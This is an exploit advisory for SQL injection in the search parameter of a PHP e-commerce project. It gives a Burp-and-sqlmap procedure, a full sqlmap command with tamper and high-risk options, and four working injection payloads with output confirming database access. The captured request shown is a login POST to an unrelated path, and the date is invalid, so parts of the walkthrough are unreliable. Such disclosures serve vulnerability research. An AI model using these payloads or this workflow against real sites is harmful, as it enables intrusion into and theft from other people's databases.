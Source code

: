 # Exploit Title: E-Commerce Website - SQL Injection
+ Date: 2023-24-12
+ Exploit Author: Hamdi Sevben
+ Vendor Homepage: https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ Software Link: https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ Version: 1.0
+ Tested on: Windows 10 Pro + PHP 8.1.6, Apache 2.4.53

## Description:

E-Commerce Website 1.0 allows SQL Injection via parameter 'search' in "/Electricks/Electricks-shop/index_search.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.


## Proof of Concept:

Go to the Search Product textbox: "http://localhost/Electricks/Electricks-shop/index_search.php"
Fill Enter product name and search.
Intercept the request via Burp Suite and send to Repeater.
Copy and paste the request to a "r.txt" file.
Use sqlmap to exploit.

---

Captured Burp request:
```
POST /libsystem/admin/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/libsystem/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=Pass
```

---

In sqlmap, use 'search' parameter to dump the database. 

`python sqlmap.py -r r.txt -p search --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db`

```
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: search=test' OR NOT 4831=4831-- wglp

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: search=test' AND (SELECT 3794 FROM(SELECT COUNT(*),CONCAT(0x717a707a71,(SELECT (ELT(3794=3794,1))),0x7162706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- tgSG

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 9664 FROM (SELECT(SLEEP(5)))rvAF)-- dHfN

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: search=test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a707a71,0x6f6e55424c5968486469704d474a566a75696b44596473587874685a79756d7378646a7942777564,0x7162706b71),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[19:47:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:47:41] [INFO] fetching current database
current database: 'electricks'
```

current database: `electricks`

![1](https://github.com/h4md153v63n/CVEs/assets/5091265/e2d64c21-ad38-4af7-977c-d140d0642a28)
